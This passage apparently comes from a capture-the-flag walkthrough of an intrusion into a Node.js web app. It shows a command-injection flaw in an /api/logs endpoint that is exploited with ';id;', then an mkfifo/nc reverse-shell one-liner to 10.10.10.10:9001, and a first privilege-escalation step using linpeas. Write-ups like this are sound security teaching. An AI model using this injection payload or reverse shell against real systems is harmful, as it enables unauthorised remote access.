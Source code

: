 ```js
                res.status(500).send(err);
                return
            }
            res.json(output);
        })
    }
    else{
        res.json({
            role: {
                role: "you are normal user",
                desc: userinfo.name.name
            }
        })
    }
})
```

We can make a request to `/api/logs` with the parameter `file` and it will run the command `git log --oneline $(file)`.

That a command injection right there.

Let's make the request using burp.

![](9.png)

Now let's add the `file` parameter to the url with the value `;id;`

![](10.png)

We successfully run the command `id`.

### Reverse shell

To get a shell we can use `nc mkfifo`:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
```

![](11.png)

>Don't forget to url encode the payload

![](12.png)

We got the shell!

## **Privilege Escalation**

Running `linpeas` we find a unknown binary with SUID permission.

![](13.png)
